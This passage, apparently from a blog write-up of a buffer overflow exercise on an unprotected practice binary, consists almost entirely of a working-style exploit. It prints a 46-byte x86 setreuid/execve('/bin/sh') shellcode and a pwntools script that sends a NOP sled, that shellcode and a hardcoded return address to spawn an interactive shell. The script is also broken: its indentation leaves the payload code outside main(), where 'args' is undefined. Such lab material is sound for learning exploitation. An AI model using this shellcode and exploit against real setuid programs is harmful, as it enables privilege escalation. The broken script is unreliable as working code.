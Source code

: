 In the end I used this one, since it honestly doesn't make much of a difference at the moment:

    46bytes: \x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68


The quick'n'dirty pwntools script:

{% highlight python %}
#!/usr/bin/env python

import argparse
import sys
from pwn import *
from pwnlib import *

context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = '32'
context.log_level = 'DEBUG'

binary = ELF('./binary/vuln_no_prots')


def main():
    parser = argparse.ArgumentParser(description="pwnerator")
    parser.add_argument('--dbg', '-d', action='store_true')
    args = parser.parse_args()

executable = './binary/vuln_no_prots'
payload = '\x90'*222

# shellcode 46 bytes
# 268 bytes - 46 bytes = length of nop sled
payload += '\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b'
payload += '\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'

payload += '\x20\xcd\xff\xff' # stack


if args.dbg:
    r = gdb.debug([executable, payload], gdbscript="""
            b *main
            continue""",
            )
else:
    r = process([executable, payload])
    r.interactive()

if __name__ == '__main__':
    main()
    sys.exit(0)
{% endhighlight %}
